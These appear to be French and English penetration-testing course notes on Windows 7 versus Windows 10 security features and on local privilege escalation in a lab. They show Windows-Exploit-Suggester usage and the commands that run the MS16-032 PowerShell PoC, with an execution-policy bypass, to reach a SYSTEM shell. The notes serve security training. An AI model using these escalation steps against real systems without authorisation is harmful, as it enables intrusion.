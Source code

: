 # Windows Desktop Versions

***

### <mark style="color:red;">Windows 7 vs. Newer Versions</mark>

Windows 7 was made end-of-life on January 14, 2020, but is still in use in many environments.

<table data-full-width="true"><thead><tr><th>Feature</th><th>Windows 7</th><th>Windows 10</th></tr></thead><tbody><tr><td><a href="https://blogs.windows.com/windowsdeveloper/2016/01/26/convenient-two-factor-authentication-with-microsoft-passport-and-windows-hello/">Microsoft Password (MFA)</a></td><td></td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/information-protection/bitlocker/bitlocker-overview">BitLocker</a></td><td>Partial</td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard">Credential Guard</a></td><td></td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard">Remote Credential Guard</a></td><td></td><td>X</td></tr><tr><td><a href="https://techcommunity.microsoft.com/t5/iis-support-blog/windows-10-device-guard-and-credential-guard-demystified/ba-p/376419">Device Guard (code integrity)</a></td><td></td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview">AppLocker</a></td><td>Partial</td><td>X</td></tr><tr><td><a href="https://www.microsoft.com/en-us/windows/comprehensive-security">Windows Defender</a></td><td>Partial</td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/win32/secbp/control-flow-guard">Control Flow Guard</a></td><td></td><td>X</td></tr></tbody></table>

***

### <mark style="color:red;">Windows 7 Case Study</mark>

* En 2020, **plus de 100 millions d’utilisateurs** étaient encore sur Windows 7.
* Windows 7 était le **deuxième OS le plus utilisé** sur les postes de travail après Windows 10 (source : NetMarketShare, nov. 2020).
* Il est courant dans les **grandes entreprises** des secteurs comme :
  * Éducation
  * Distribution (retail)
  * Transport
  * Santé
  * Finance
  * Gouvernement
  * Industrie

***

#### <mark style="color:green;">🛡 Rôle du pentester face aux systèmes EOL (fin de vie)</mark>

* Le pentester doit **comprendre le contexte métier du client**, ses contraintes et sa tolérance au risque.
* Il ne suffit pas de signaler la présence de Windows 7 avec une simple recommandation de mise à jour.
* Il est nécessaire de **discuter avec le client** pour :
  * Comprendre pourquoi ces systèmes sont encore utilisés
  * Adapter les recommandations en conséquence

***

#### <mark style="color:green;">⚙️ Exemples de contexte</mark>

* Un **grand distributeur** peut avoir des appareils sous Windows 7 embarqué dans des centaines de magasins (ex : caisses POS).
  * Solution immédiate impossible → chercher des **mesures de mitigation**.
* Un **cabinet d’avocats** avec une seule machine Windows 7 → peut la retirer ou la mettre à jour facilement.

***

#### <mark style="color:green;">🔍 Ciblage technique</mark>

* **Sherlock** : pour détecter les vulnérabilités connues
* **Windows-Exploit-Suggester** : outil basé sur `systeminfo` pour suggérer des exploits liés aux correctifs manquants

<mark style="color:green;">**Install Python Dependencies (local VM only)**</mark>

```shell-session
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
cd setuptools-2.0/
sudo python2.7 setup.py install

sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
cd xlrd-1.0.0/
sudo python2.7 setup.py install
```

<mark style="color:green;">**Gathering Systeminfo Command Output**</mark>

```cmd-session
C:\htb> systeminfo
```

<mark style="color:green;">**Updating the Local Microsoft Vulnerability Database**</mark>

```shell-session
sudo python2.7 windows-exploit-suggester.py --update
```

<mark style="color:green;">**Running Windows Exploit Suggester**</mark>

{% code fullWidth="true" %}
```shell-session
 python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt 
```
{% endcode %}

{% hint style="info" %}
Suppose we have obtained a Meterpreter shell on our target using the Metasploit framework. In that case, we can also use this [local exploit suggester module](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/) which will help us quickly find any potential privilege escalation vectors and run them within Metasploit should any module exist.

Looking through the results, we can see a rather extensive list, some Metasploit modules, and some standalone PoC exploits. We must filter through the noise, remove any Denial of Service exploits, and exploits that do not make sense for our target OS. One that stands out immediately as interesting is MS16-032. A detailed explanation of this bug can be found in this [Project Zero blog post](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) which is a bug in the Secondary Logon Service.
{% endhint %}

<mark style="color:green;">**Exploiting MS16-032 with PowerShell PoC**</mark>

Let's use a [PowerShell PoC](https://www.exploit-db.com/exploits/39719) to attempt to exploit this and elevate our privileges.

```powershell-session
Set-ExecutionPolicy bypass -scope process

Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

<mark style="color:green;">**Spawning a SYSTEM Console**</mark>

```cmd-session
C:\htb> whoami
```

***
